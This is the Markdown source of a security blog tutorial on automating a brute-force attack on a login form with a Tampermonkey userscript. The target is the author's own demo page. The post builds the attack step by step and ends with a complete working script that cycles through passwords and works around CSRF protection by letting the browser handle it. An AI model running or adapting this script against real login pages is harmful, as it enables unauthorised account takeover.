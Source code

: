 ```yaml
---
layout: post
title: "Automating web application attacks with Tampermonkey"
thumbnail: monkey-240.jpg
date: 2017-05-24
---
```


[Tampermonkey](https://tampermonkey.net/) and [Greasemonkey](http://www.greasespot.net/) are userscript managers that make it possible to add custom Javascript functionality to web pages. User scripts can be used to customize pages, or to automate web interactions. In this post we will use Tampermonkey to automate filling out a login form, to try to brute force credentials.

## Submitting a form with Tampermonkey

Tampermonkey makes it possible to add custom Javascript to a page. This means we can program a little bit of functionality, like submitting a login form with credentials.

As an example, we will try to brute-force [this login form](http://demo.sjoerdlangkemper.nl/login.php). We create a new user script in Tampermonkey, and add the following code to fill out the form and submit it:


    (function() {
        'use strict';

        let usernameElem = document.getElementById('username');
        usernameElem.value = 'admin';

        let passwordElem = document.getElementById('password');
        passwordElem.value = '123';

        document.getElementsByTagName('form')[0].submit();
    })();

Save the script, and reload the login form. Note that it keeps refreshing the page over and over again. When we submit the form the page reloads, and this triggers our script again which submits the form, and so on. Use the escape key to end this endless loop.

![Failed login](/images/tampermonkey-failed-login.png "Failed login")

## Looping over passwords

Constantly submitting the form is basically what we want, except that we want to try another password each time. Note that a for loop would not work:

    (function() {
        'use strict';

        // Doesn't work
        for (let i = 0; i < 100; i++) {
            ...
            passwordElem.value = i;

            document.getElementsByTagName('form')[0].submit();
        }
    })();

After the first loop the form is submitted, our script is stopped and the page is reloaded. The value of `i` is not kept between page reload, so the loop starts again without incrementing `i`.

Instead, we need a way to keep state across page reloads. The functions [`GM_setValue`](https://tampermonkey.net/documentation.php#GM_setValue) and [`GM_getValue`](https://tampermonkey.net/documentation.php#GM_getValue) can do just that. To use these functions, first enable them with a grant header:

    @grant GM_setValue
    @grant GM_getValue

Then when the script is run, retrieve the value, increase it, and store it again:

    let counter = GM_getValue('counter', 0);
    counter += 1;
    passwordElem.value = counter;
    GM_setValue('counter', counter);

Note that the values stored with `GM_setValue` are persisent and can only be cleared by the Tampermonkey script. This can be annoying if you want to start your loop again from the start. While developing, you could add a button to the page to reset the counter:

    let buttonElem = document.createElement('button');
    buttonElem.innerHTML = 'restart';
    buttonElem.addEventListener('click', function() {
        GM_setValue('counter', 0);
        window.location = window.location.href;
    });
    document.body.appendChild(buttonElem);

## Handling success

With the script so far we try incremental numbers as passwords. However, when we have succeeded to log in we want to know what the correct password was. So we have to detect when we are logged in and print the password that was last used. To do this, we check whether the username field is present. If we have logged in, the login form with the username field will no longer be shown. If it is not present, we log the last password used:

    let usernameElem = document.getElementById('username');
    if (usernameElem) {
        ...
    } else {
        console.log('The password is ' + GM_getValue('counter'));
    }

## Running the script

Now, if we run the complete script (which can be found at the end of this post), it tries incremental numbers as password until the page no longer shows the login form, and then prints the correct password in the console.

![Successfully logged in](/images/tampermonkey-logged-in.png "Successfully logged in")

## Conclusion

In this post we have shown that Tampermonkey can be used to automate browser behavior in order to brute-force a login page.

The advantage of using Tampermonkey in brute-force attacks is that you get the default browser behavior. For example, the example form has CSRF protection, but we did nothing to obtain a valid CSRF token and submit that with the following request. The browser already does this for us. Furthermore, you can easily see what is happening as each response is rendered in the browser.

A disadvantage is that it is a lot slower than issueing requests in a script or using Burp Intruder. Also, the way to implement a loop with `GM_setValue` makes the code a bit awkward.

## Appendix: complete script

The complete script looks like this:

    // ==UserScript==
    // @name         Hack sjoerdlangkemper.nl
    // @namespace    https://www.sjoerdlangkemper.nl/
    // @version      0.1
    // @description  Brute-force a login page
    // @author       Sjoerd Langkemper
    // @match        http://demo.sjoerdlangkemper.nl/login.php
    // @grant        GM_setValue
    // @grant        GM_getValue
    // ==/UserScript==


    (function() {
        'use strict';

        let usernameElem = document.getElementById('username');
        if (usernameElem) {
            usernameElem.value = 'admin';

            let passwordElem = document.getElementById('password');

            let counter = GM_getValue('counter', 0);
            counter += 1;
            passwordElem.value = counter;
            GM_setValue('counter', counter);

            document.getElementsByTagName('form')[0].submit();
        } else {
            console.log('The password is ' + GM_getValue('counter'));

            let buttonElem = document.createElement('button');
            buttonElem.innerHTML = 'restart';
            buttonElem.addEventListener('click', function() {
                GM_setValue('counter', 0);
                window.location = window.location.href;
            });
            document.body.appendChild(buttonElem);
        }
    })();



